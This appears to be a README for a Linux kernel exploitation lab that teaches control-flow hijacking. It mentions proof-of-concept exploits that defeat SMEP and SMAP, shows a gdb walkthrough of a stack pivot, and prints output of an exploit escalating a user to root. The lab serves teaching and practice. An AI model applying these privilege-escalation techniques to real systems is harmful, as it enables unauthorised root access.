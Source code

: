 # Boffer

A stand for practicing CFHjack in the Linux kernel

<p align="center"><img src="boffer.gif"/></p>

## Purpose

The purpose of this project is to provide a safe and controlled environment for learning about
Linux kernel security and exploiting vulnerabilities.

## Background

Control Flow Hjack is a well-known problem in Linux kernel security so there are various mitigations.
This project aims to provide a hands-on environment for learning about these topics and practicing exploitation techniques.

## Usage

### About PoCs

- `nothing.c` works only without mitigations
- `smep.c` beats down the SMEP
- `smap.c` wins both: SMEP and SMAP

### Preparing

Get a script to retrieve __vmlinux__ form __bzImage__:

```bash
wget https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/plain/scripts/extract-vmlinux -O extract-vmlinux.sh
```

Extract __vmlinux__:

```bash
bash extract-vmlinux.sh bzImage > vmlinux
```

### Exploring

In the first terminal, run:

```bash
bash run.sh
y
y
```

Then, in the second one:

```
gdb vmlinux
target remote 127.0.0.1:1234
break *0xffffffffc0000057
c
```

Return to the VM (1st terminal):

```
./smap
```

And here we are! Watch the kernel buffer overflow!

```
────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────

 ► 0xffffffffc0000057    ret                                <0xffffffff81784532>
    ↓
   0xffffffff81784532    mov    esp, 0x83000000		    ESP => 0x83000000
   0xffffffff81784537    ret
```

For example, here you can see the __stack pivoting__ technique. Simply press `c` in __gdb__ to achieve root.

```
/exp $ id
uid=1000(chal) gid=1000(chal) groups=1000(chal)
/exp $ grep -o -E "smep|smap" /proc/cpuinfo 
smep
smap
/exp $ id
uid=1000(chal) gid=1000(chal) groups=1000(chal)
/exp $ ./smap
[+] device opened
[+] the flow is defeated!
/exp # id
uid=0(root) gid=0(root)
/exp #
```
